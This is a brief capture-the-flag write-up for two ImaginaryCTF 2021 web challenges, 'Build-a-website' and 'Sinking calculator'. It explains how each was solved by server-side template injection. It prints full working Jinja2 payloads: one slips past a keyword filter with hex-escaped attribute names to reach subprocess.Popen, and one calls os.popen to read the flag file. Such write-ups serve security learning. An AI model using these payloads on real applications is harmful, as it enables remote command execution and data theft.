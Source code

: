 - ## Imaginary ctf 2021(Build-a-website):
  Problem: Web page had an input box for html code. Entering {{7*7}} reurns 49. Thus it is prone too ssti
  Initial payload: ```{{ ()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')() }}```
  This was interesting, the filer in the script didnt allow use of class, base or global so the attr was used instead and hexadecimal notations of class,
  base and subclasses was used which makes the payload in ascii:
  ```{{__class__.__base__.__subclasses__}}``` <br>
  The empty tuple () in the expression serves as an object from which we can start chaining attribute lookups <br>
  the | operator is used to chain these filters together, applying each one in sequence to transform the value step by step. <br>

  This gives a list of all the modules. Index of ```<class 'subprocess.Popen'>``` at 360.

  Final payload: ```{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}```

- ## Imaginary ctf 2021(Sinking calculator): 
![image](https://github.com/poorvi1910/Web/assets/146640913/f78f996d-601d-45c4-a6dc-35fb80e43e82)
In this code, the input length is limited to 80 chars and output is only printed if it has numbers or minus.
Payload: ```calc?query=config.class.init.globals[%27os%27].popen(%27od%20-b%20-An%20fla*%27).read()``` <br>
translates to ```config.class.init.globals['os'].popen('od -b -An fla*').read()```. The command ```od -b -An fla*``` is used to display file contents in octal format, without displaying the filename (-An)
  - od: This is the "octal dump" command, which is used to display file contents in different formats (octal, hexadecimal, decimal, ASCII, etc.).
  - b: This option tells od to display the output in octal bytes. Each byte in the file(s) will be displayed as a three-digit octal number.
  - An: This option tells od to suppress the default output of file offsets. Normally, od prefixes each line of output with the byte offset of that line within the file. -An removes these offsets from the output.
  - fla*: This is a shell glob pattern. It matches any files in the current directory whose names start with "fla". For example, it could match files like "flag.txt", "flag1.txt", etc.<br>
The ouput gives a string of numbers which when converted from octal to ascii gives the flag.

